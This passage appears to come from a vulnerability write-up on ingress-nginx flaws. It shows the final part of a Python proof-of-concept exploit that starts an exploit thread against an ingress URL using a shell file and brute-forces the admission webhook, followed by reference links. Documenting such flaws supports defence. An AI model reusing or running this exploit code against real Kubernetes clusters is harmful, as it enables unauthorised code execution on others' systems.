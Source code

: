 ```python
        chunk = sock.recv(4096)
        if not chunk:
            break
        response += chunk
    print("[*] Response:")
    print(response.decode(errors="ignore"))
    sock.close()

def main():
    print(f"[*] Using shell file: {SHELL_FILE}")
    print(f"[*] Admission URL: {ADMISSION_URL}")
    print(f"[*] Ingress URL: {INGRESS_URL}")
    print(f"[*] Workers: {NUM_WORKERS}")
    print("[*] Starting exploit...")
    x = threading.Thread(target=exploit, args=(INGRESS_URL, SHELL_FILE))
    x.start()
    time.sleep(2)
    admission_brute(ADMISSION_URL, max_workers=NUM_WORKERS)
if __name__ == "__main__":
    main()
```

![image](/images/cve-2025-ingress-nginx-multiple/cve-2025-ingress-nginx-multiple_image2.png)

## reference

[https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities)
[https://mp.weixin.qq.com/s/JjdtzRVin9zedz8bdHh9Rg](https://mp.weixin.qq.com/s/JjdtzRVin9zedz8bdHh9Rg)
[https://blog.csdn.net/leah126/article/details/147160597](https://blog.csdn.net/leah126/article/details/147160597) 